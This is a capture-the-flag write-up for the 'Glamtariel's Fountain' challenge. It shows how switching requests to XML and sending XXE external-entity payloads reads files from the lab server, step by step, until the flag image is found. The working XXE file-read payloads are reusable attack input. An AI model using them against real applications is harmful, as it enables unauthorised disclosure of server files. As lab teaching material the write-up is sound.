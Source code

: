 # Glamtariel's Fountain

![](../../../resources/screenshots/glamtarielsfountain-intro.png)

We're taken to a website, `https://glamtarielsfountain.com/`. At the bottom we're given two items (note that the "Reset" button in the top right changes these values):

- **Snack**: `0c4b81f9-38fc-40be-9c4b-b3bbb3a95ab5`
- **Ticket**: `ImY4ZTAxYzYyMGNiZmVhMjEyMDE4YTYzNTlkZDI0ODJmZmFlYjBmYzMi.Y5aBDQ.G_4D45x_A59zk-2nS22JWXfPSU4`

I'm going to do a short walkthrough straight to the answer without my struggles, because this was honestly a massive PITA and had way too much guessing involved.

1. You can drag and drop the items to the princess or the fountain. These are represented in a JSON object via `POST /dropped`:

![](../../../resources/screenshots/glamtarielsfountain-firstpost.png)

1. You receive a JSON object in the response, which changes depending on the `imgDrop` (img1 thru img4) and the `who` (princess or fountain).

![](../../../resources/screenshots/glamtarielsfountain-firstresponse.png)

1. Eventually you find that you need to talk to them using XML format vs. JSON. I used Burp suite to Cluster Bomb the way to the end (if you do this manually, you'll find that the objects change twice).  I did the following:
	1. `Content-Type: <application/json|application/xml>`
	2. `imgDrop: img<#>`
	3. `who: <fountain|princess>`
	4. `reqType: <json|xml>`

1. Once I got to the end, I removed the JSON references and sent the input to Burpsuite's Repeater function. I also converted the input from JSON to XML:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

1. We now have to use XXE (XML External Entity) to read the RINGLIST file (it is referenced in one of the Princess' texts).  This is where the pain is. Eventually, we get the following to work:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

1. Once we do that, we get a response:

```json
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

1. Navigating to the image provided, we get:

![](../../../resources/screenshots/glamtarielsfountain-pholder.png)

1. It has `x_phial_pholder_2022` on the folder cover, with `bluering.txt` and `redring.txt` files inside of it. So we craft a new payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Which returns:

```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

1. This returns a new ring picture with another string, `goldring_to_be_deleted.txt` (I have rotated the picture to make it readable):

![](../../../resources/screenshots/glamtarielsfountain-redring.png)

1. New payload, new response:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>

<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

```json
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

1. We see reference to REQ and TYPE in this response. Maybe we need to do an XXE in against `reqType` instead of `imgDrop`?

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>

<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&bar;</reqType>
</root>
```

Response:

```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```

![](../../../resources/screenshots/glamtarielsfountain-goldring.png)

Answer: `goldring-morethansupertopsecret76394734.png`

Back to the [web room](../README.md)!